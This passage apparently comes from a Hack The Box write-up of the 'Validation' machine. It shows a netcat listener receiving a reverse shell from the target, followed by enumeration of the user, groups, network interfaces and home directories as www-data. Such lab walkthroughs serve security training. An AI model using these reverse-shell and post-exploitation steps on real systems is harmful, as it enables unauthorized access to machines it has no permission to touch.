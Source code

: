 ![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521205941.png){: width="700" height="400" }

Let's move back to our netcat listener to see if we have a connection.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Validation]
└─$ rlwrap nc -lvp 443
listening on [any] 443 ...
10.129.95.235: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.129.95.235] 59838
sh: 0: can't access tty; job control turned off
$ 

```

Since we have a connection with the victim we should check a few things.
- Who we are
- What are our memberships
- On what machine are we working
- What network interfaces has this machine

```bash
$ whoami;id;hostname;ip a;
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
validation
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
19: eth0@if20: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:15:00:09 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.21.0.9/16 brd 172.21.255.255 scope global eth0
       valid_lft forever preferred_lft forever
$ 

```

So we are `www-data`, have the default memberships and there are no other network interfaces present to hop to another machine. Let's check what home directories are on the system present.

```bash
$ ls -ahlR /home
/home:
total 12K
drwxr-xr-x 1 root root 4.0K Sep 16  2021 .
drwxr-xr-x 1 root root 4.0K Sep 16  2021 ..
drwxr-xr-x 2 root root 4.0K Sep  9  2021 htb

/home/htb:
total 12K
drwxr-xr-x 2 root root 4.0K Sep  9  2021 .
drwxr-xr-x 1 root root 4.0K Sep 16  2021 ..
-rw-r--r-- 1 root root   33 May 21 19:04 user.txt
```
